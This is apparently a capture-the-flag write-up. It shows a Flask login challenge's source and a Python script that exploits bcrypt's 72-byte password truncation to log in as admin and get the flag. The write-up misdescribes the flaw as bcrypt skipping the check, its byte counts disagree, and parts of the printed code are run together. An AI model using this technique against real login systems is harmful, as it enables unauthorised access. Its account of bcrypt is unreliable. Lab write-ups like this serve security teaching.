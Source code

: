 ## Question
To 'B' secure or to 'b' fail? Strong passwords for admins are always great, right?

## Solution
Here we've been given a website with a username and password category.
![image](https://github.com/user-attachments/assets/d25ce2a0-ed09-4f0c-a079-0d25cadab51c)

writing `/source` to the url, we get the source code.
```python
from flask import Flask, request, redirect, render_template_string
import sys
import os
import bcrypt
import urllib.parse
app = Flask(__name__) 
app.secret_key = os.urandom(16)
# This is super strong! The password was generated quite securely. Here are the first 70 bytes, since you won't be able to brute-force the rest anyway...
# >>> strongpw = bcrypt.hashpw(os.urandom(128),bcrypt.gensalt())
# >>> strongpw[:71]
b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76'
app.ADMIN_PW_HASH = b'$2b$12$8bMrI6D9TMYXeMv8pq8RjemsZg.HekhkQUqLymBic/cRhiKRa3YPK' 
FLAG = open("flag.txt").read()
@app.route('/source') 
def source():
    return open(__file__).read() @app.route('/', methods=["GET"]) 
def index():
    username = request.form.get("username", None) 
    password = request.form.get("password", None) 
    if username and password:
        username = urllib.parse.unquote_to_bytes(username) 
        password = urllib.parse.unquote_to_bytes(password)
    if username != b"admin": 
        return "Wrong user!" 
    if len(password) > 128:
        return "Password too long!" 
    if not bcrypt.checkpw(password, app.ADMIN_PW_HASH):
        return "Wrong password!"
    return f"""Congrats! It appears you have successfully bf'ed the password. Here is your {FLAG}"""
    # Use f-string formatting within the template string template_string = """
```

Now there's a vulnerability in bcrypt where it doesn't bother password checking if the password is too long.
Since the actual password is too long and it would take too long to get the correct password, we use the first 70 bytes they've given in the source code and we do a GET request and we get the flag.
```python
import requests
import urllib.parse

url = "http://52.59.124.14:5013/"
username = b'admin'
password = b'\xec\x9f\xe0a\x978\xfc\xb6:T\xe2\xa0\xc9<\x9e\x1a\xa5\xfao\xb2\x15\x86\xe5$\x86Z\x1a\xd4\xca#\x15\xd2x\xa0\x0e0\xca\xbc\x89T\xc5V6\xf1\xa4\xa8S\x8a%I\xd8gI\x15\xe9\xe7$M\x15\xdc@\xa9\xa1@\x9c\xeee\xe0\xe0\xf76\xaa'
username = urllib.parse.quote(username)
password = urllib.parse.quote(password)
data = {
    "username": username,
    "password": password
}

response = requests.get(url, data=data)
print(response.text)
```
`flag: ENO{BCRYPT_FAILS_TO_B_COOL_IF_THE_PW_IS_TOO_LONG}`
